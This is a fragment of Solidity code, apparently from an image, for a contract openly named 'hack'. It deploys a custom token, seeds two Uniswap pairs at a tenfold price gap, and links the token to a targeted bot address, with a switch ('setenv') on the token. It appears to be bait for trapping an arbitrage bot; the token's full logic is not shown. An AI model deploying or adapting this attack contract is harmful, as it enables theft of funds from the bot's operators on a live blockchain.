 ```solidity
    function setenv(bool x) public 
    {
        env=x;
    }

    function setp(address weth,address hacks,address bots) public
    {
        wethaddr=weth;
        hackaddr=hacks;
        botaddr=payable(bots);
    }
}


contract hack
{
    event gasv(uint);
    IUniswapV2Factory factory1;
    IUniswapV2Factory factory2;
    IWETH public weth;
    HToken public token;
    IUniswapV2Pair public pair1;
    IUniswapV2Pair public pair2;
    address public botaddr;
    constructor(address fac1,address fac2,address we,address bots)
    {
        weth=IWETH(we);
        factory1=IUniswapV2Factory(fac1);
        factory2=IUniswapV2Factory(fac2);
        botaddr=bots;
    }
    function work() public payable
    {
        require(msg.value==0.2 ether);
        token=new HToken();

        pair1 = IUniswapV2Pair(factory1.createPair(address(weth), address(token)));
        pair2 = IUniswapV2Pair(factory2.createPair(address(weth), address(token)));
        weth.deposit{value: msg.value}();

        require(weth.transfer(address(pair1), 0.1 ether));
        require(token.transfer(address(pair1), 1 ether));
        pair1.mint(address(this));

        require(weth.transfer(address(pair2), 0.1 ether));
        require(token.transfer(address(pair2), 10 ether));
        pair2.mint(address(this));

        token.setp(address(weth),address(this),botaddr);
    }

    fallback() external payable { }
    receive() external payable { }
}
```
